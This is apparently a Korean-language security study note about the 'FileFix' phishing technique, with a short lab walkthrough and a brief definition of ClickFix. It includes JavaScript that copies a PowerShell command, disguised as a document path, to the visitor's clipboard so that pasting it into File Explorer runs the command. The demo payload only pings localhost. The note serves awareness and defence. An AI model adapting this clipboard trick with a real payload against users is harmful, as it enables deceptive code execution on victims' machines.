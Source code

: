 
# FileFix 공격

## 정의

피싱 페이지에서 ‘파일 공유 알림’ 등으로 위장해 사용자가 특정 경로를 파일 탐색기 주소창에 붙여 넣도록 유도

## 실습

![image](https://github.com/user-attachments/assets/dceadcf7-0b4c-495f-98b1-25b4d6840ff8)

클립보드 복사를 하도록 유도하는 웹페이지

<img src=https://github.com/user-attachments/assets/f95747a7-0e00-48f4-9926-f3f48a4e1766 width=600>

버튼 클릭 시 알림이 나타나면서 파일 탐색기에 복사한 내용을 붙여넣도록 다음 행동 유도

<img src=https://github.com/user-attachments/assets/179c6aef-aa4d-4412-ad7d-21b57eddc12b width=600>

파일 탐색기에 붙여넣으면 powershell에서 ping 명령어를 실행하는 명령어도 함께 복사된 것을 확인할 수 있음

<img src=https://github.com/user-attachments/assets/bb74d151-7ed1-437d-b406-f56964052e67 width=600>

powershell에서 ping 명령어가 실행됨

※ 웹사이트 주요 코드

```
<div class="box" onclick="copyPayload()">
  📁 C:\CompanyPolicy\HRGuide.docx
</div>
```

겉으로는 파일 경로를 복사하는 것처럼 보임

```
<script>
function copyPayload() {
  const payload = `powershell.exe -c "ping 127.0.0.1" # C:\\CompanyPolicy\\HRGuide.docx`;
  const textarea = document.createElement("textarea");
  textarea.value = payload;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  alert("Path copied to clipboard! Try pasting it into File Explorer’s address bar.");
}
</script>
```

클립보드에 복사한 값이 powershell.exe -c "ping 127.0.0.1" # C:\\CompanyPolicy\\HRGuide.docx 이 됨

## 클릭픽스

- 정의 : 웹사이트에서 버튼을 클릭하면 악성 파워셸 명령이 클립보드에 복사되고, 사용자가 이를 실행 대화창(Win+R)이나 명령 프롬프트에 붙여 넣도록 유도

## 시사점

출처가 불분명한 파일이나 명령어 복사 붙여넣기에 대한 경각심 필요

출처 : https://www.boannews.com/media/view.asp?idx=137854&page=1&kind=1
